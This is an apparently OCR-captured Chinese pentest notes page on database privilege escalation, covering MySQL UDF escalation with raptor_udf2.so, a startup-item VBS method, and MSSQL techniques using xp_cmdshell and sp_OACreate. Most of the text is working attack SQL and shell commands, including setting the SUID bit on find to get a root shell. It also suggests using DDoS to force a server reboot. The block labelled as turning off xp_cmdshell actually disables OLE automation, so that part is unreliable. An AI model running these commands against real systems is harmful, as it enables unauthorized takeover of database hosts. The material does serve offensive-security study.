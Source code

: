 **(3)数据库提权——反弹端口提权**  
**提权条件**  
1、获取数据库的账号和密码，同时能够执行查询命令。  
2、secure\_file\_priv=,可导出udf.dll到系统目录或者mysql数据库安装目录下的lib下plugin  
3、授权mysql数据库远程用户的登录

**(4)数据库提权——启动项提权 (这种方法不推荐)**  
**提权原理**  
`使用mysql写文件，写一段vbs代码到开启自启动中。服务器重启的时候达到创建用户并提取。可以使用DDOS迫使服务器重启 提权条件 secure_file_priv不为null 已知账号和密码`

**(5)linux系统-udf提权**  
上传脚本进行监听  
靶机连接数据库  
查看版本

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('chmod u+s /usr/bin/find');
find / -exec "/bin/sh" \;
```

**mssql数据库SA权限**  
执行命令存储过程：xp\_cmshell、sp\_OACreate  
注册表存储过程：xp\_regwrite  
**存储过程**  
其实质就是一个“集合”。它就是存储在sqlserver中预先定义好的“sql语句集合。”使用T-SQL语言编写好的各种小脚本共同组合成的集合体，我们就称为“存储过程”

**利用xp\_cmdshell提权**  
**（1）xp\_cmdshell解释**  
Xp\_cmdshell是sqlserver中的组件，可以以操作系统命令解释器的方式执行给定的命令字符串，并以文本行方式返回任何输出。可以用来执行系统命令  
**（2）xp\_cmdshell开启**  
默认在sql server2000中是开启的，在sqlserver2005之后的版本默认禁止。如果我们有sa权限，可以用命令开启

```shell
exec sp_configure ‘show advanced options’ , 1;reconfigure;
exec sp_configure ‘xp_cmdshell’, 1;reconfigure;
```

**xp\_cmdshell 关闭**

```shell
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'ole automation procedures',0;reconfigure;
exec sp_configure 'show advanced options',0;reconfigure;

```

**（3）当xp\_cmdshell删除或出错的情况下，使用sp\_OACreate组件**  
开启组件SP\_OACreate

```shell
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'ole automation procedures',1;reconfigure;
```

